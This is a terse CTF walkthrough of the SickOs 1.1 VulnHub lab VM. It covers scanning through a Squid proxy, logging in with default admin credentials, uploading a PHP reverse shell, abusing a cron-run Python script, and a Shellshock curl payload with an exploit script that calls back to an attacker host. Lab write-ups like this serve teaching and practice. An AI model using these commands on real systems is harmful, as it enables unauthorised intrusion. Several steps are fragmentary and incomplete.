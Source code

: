 ## SickOs 1.1 VulnHub VM walkthrough

SickOs 1.1 by https://twitter.com/sayli_ambure

Link: https://www.vulnhub.com/entry/sickos-11,132/

```
This CTF gives a clear analogy how hacking strategies can be performed on a network to compromise it in a safe environment. 
This vm is very similar to labs I faced in OSCP. 
The objective being to compromise the network/machine and gain Administrative/root privileges on them.
```


Sudo Netdiscover

![](Assets/1.png)

Nmap -sC -sV -Pn -p- -A 192.168.1.11

 Nikto -h 192.168.1.11 -useproxy 192.168.1.11:3128

Burp proxy 192.168.1.11 : 3128  >>>> 192.168.1.11/robots.txt

Admin:admin

Added ip and port to php Reverse shell

Uploaded php reverse shell

Nc -nvlp 1234 & visited url of shell >> got shell

Visited var/www


Method 1: Using connect.py

Rw permissions for connect.py. Visit cron.d

Create payload with msfvenum 

Echo payload to connect.py

Nc -nvlp 7777


Method 2: using config.php

config.php



Method 3: Get a shell using shellshock

curl --proxy 192.168.1.11:3128 http://192.168.1.11/cgi-bin/status -H "User-Agent: () { pwned;}; echo 'Content-Type: text/plain'; echo; /usr/bin/whoami; exit"

Download 34900.py

Reverse shell: python 34900.py payload=reverse rhost=192.168.1.11 lhost=192.168.1.7 lport=1234 proxy=192.168.1.11:3128 pages=/cgi-bin/status


config.php

sudo


